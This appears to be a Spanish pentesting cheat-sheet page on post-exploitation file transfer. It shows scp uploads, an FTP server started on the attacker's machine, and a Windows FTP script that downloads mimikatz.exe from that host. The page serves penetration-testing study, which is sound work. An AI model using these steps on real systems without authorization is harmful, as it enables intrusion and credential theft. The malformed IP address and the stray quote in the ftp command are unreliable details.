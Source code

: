 ```yaml
---
layout: article
title: Pentesting - Post-explotación
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


<h2>Transferencia de información</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Subida de información vía SSH</div>
</div>

**SSH**
~~~bash
scp <binario> <user>@<ip>:/tmp
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Subida de información vía FTP</div>
</div>

Levantar un servidor FTP en la máquina atacante:
~~~bash
pip3 install pyftpdlib ; python3 -m pyftpdlib -p 21
~~~

Guardar comandos FTP en un fichero dentro del sistema Windows:

~~~bash
echo open 192.168.150 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
~~~

Ejecutar comandos ftp para descargar el binario
~~~cmd
ftp -n -v -s:ftp.txt"
~~~